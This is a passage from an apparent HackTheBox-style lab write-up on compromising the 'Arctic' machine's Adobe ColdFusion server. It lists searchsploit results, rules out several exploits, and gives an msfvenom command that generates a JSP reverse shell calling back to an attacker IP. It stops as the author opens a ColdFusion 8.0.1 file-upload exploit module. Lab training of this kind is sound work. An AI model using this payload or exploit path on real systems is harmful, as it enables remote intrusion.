 
It’s worth taking a few minutes to look at each results. Many I can dismiss
because of version mismatch or because I’m not really interested in XSS bugs
at this point. That leaves these:

    
    
    Adobe ColdFusion - Directory Traversal                                                                  | multiple/remote/14641.py
    Adobe ColdFusion - Directory Traversal (Metasploit)                                                     | multiple/remote/16985.rb
    Adobe ColdFusion 2018 - Arbitrary File Upload                                                           | multiple/webapps/45979.txt
    Adobe ColdFusion APSB13-03 - Remote Multiple Vulnerabilities (Metasploit)                               | multiple/remote/24946.rb
    ColdFusion 8.0.1 - Arbitrary File Upload / Execution (Metasploit)                                       | cfm/webapps/16788.rb
    Macromedia ColdFusion MX 6.1 - Template Handling Privilege Escalation                                   | multiple/remote/24654.txt
    

A little more examining of `Adobe ColdFusion APSB13-03 - Remote Multiple
Vulnerabilities (Metasploit)` suggests it’s for a different version of CF.
I’ll also rule out `Adobe ColdFusion 2018 - Arbitrary File Upload`, as it
relies on posting to
`/cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/upload.cfm`, and I
can’t find a `cf_scripts` directory on Arctic.

That leaves two vulnerabilities to explore further.

## Shell as tolis

### Generate Payload

With upload to webserver vulnerabilities, typically I would go with a CFM
webshell to get a foothold, and then get a shell from there. But this box is
so painfully slow, that I want to get away from CF as quickly as possible. JSP
payloads typically work on CF, so I’ll create one with `msfvenom`:

    
    
    root@kali# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.47 LPORT=443 -f raw > shell.jsp
    Payload size: 1496 bytes
    

### Path 1: Unauthenticated RCE

#### Exploit Analysis

The most direct path to RCE on Arctic is via the Execution vulnerability:

    
    
    ColdFusion 8.0.1 - Arbitrary File Upload / Execution (Metasploit)                                       | cfm/webapps/16788.rb
    

Especially for OSCP practice, being able to read a Metasploit script and
understand it is a critical still. I’ll open the script with `searchsploit -x
cfm/webapps/16788.rb`. The most interesting path is the `exploit` function:
